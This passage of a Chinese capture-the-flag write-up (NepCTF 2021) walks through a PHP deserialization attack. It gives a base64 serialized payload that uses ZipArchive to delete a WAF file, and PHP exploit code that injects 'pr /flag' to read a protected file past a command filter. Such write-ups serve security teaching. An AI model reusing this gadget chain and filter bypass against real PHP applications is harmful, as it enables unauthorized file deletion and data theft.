 得到payload

```
Tzo0OiJHYW1lIjo3OntzOjg6InVzZXJuYW1lIjtzOjU6ImFkbWluIjtzOjg6InBhc3N3b3JkIjtzOjU6ImFkbWluIjtzOjY6ImNob2ljZSI7Tzo1OiJsb2dpbiI6Mzp7czo0OiJmaWxlIjtOO3M6ODoiZmlsZW5hbWUiO047czo3OiJjb250ZW50IjtOO31zOjg6InJlZ2lzdGVyIjtzOjU6ImFkbWluIjtzOjQ6ImZpbGUiO086MTA6IlppcEFyY2hpdmUiOjU6e3M6Njoic3RhdHVzIjtpOjA7czo5OiJzdGF0dXNTeXMiO2k6MDtzOjg6Im51bUZpbGVzIjtpOjA7czo4OiJmaWxlbmFtZSI7czowOiIiO3M6NzoiY29tbWVudCI7czowOiIiO31zOjg6ImZpbGVuYW1lIjtzOjc6IndhZi50eHQiO3M6NzoiY29udGVudCI7aTo5O30=
```

成功删除waf.txt

![delwaf](nepctf2021/image-20210322171241326.png)



---

##### 读取flag：

ls没过滤，有兴趣可以执行ls看一眼，flag在根目录下

最后一步，分析shell.php，如何在过滤的情况下读取/flag，搜一圈，找到了linux的命令`pr`

> **pr命令** 用来将文本文件转换成适合打印的格式，它可以把较大的文件分割成多个页面进行打印，并为每个页面添加标题。

![pr](nepctf2021/image-20210322171800805.png)

exp3如下

```php
<?
'''
  类同上
  
'''

$a = new Game();
$a->username = 'admin';
$a->password = "admin";
$a->register = "admin";

$a->file = new Open();
$a->filename = 'waf.txt';
$a->content = 'pr /flag';

var_dump(serialize($a));
var_dump(base64_encode(serialize($a)));
```